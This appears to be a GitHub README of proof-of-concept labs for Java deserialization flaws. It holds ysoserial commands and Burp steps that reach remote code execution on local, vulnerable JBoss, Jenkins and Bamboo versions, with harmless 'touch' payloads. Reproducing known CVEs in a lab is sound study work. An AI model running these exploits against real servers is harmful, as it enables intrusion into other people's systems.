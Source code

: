 Here there are practical examples of the - deserialization of untrusted data - vulnerability.

These pocs use the [ysoserial](https://github.com/frohoff/ysoserial/) tool to generate exploits.

# Pocs

Minimal Example
---------------------------------
- Use java 8
```
cd MinimalExample
java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
cp ./exploit.sh /tmp
chmod +x /tmp/exploit.sh
javac Employee.java
javac DeSerializingObject.java
java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
```
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE-2016-7065)
---------------------------------


- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Check if you have installed the JDK 1.8
- Run jboss: ```java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar```
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: ```java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser``` or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"



Jenkins (CVE-2015-8103)
---------------------------------

- Download a vulnerable version of Jenkins (in this case you can find the v1.649)
- Check if you have installed the JDK 1.8
```
java -jar ./jenkins-war-1.649.war
java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"
```


Bamboo (CVE-2015-6576)
---------------------------------

- Download and install openjdk 1.7 
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
```java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser ```
  or use the payload inside the folder JBoss


# Ysoserial stacktraces

Find them in the /Ysoserial-stacktraces directory

# References and readings

- https://www.edoardovignati.it/how-to-install-old-versions-of-java-jdk/
- https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478

# Defenses
- https://link.springer.com/chapter/10.1007/978-3-030-00470-5_21


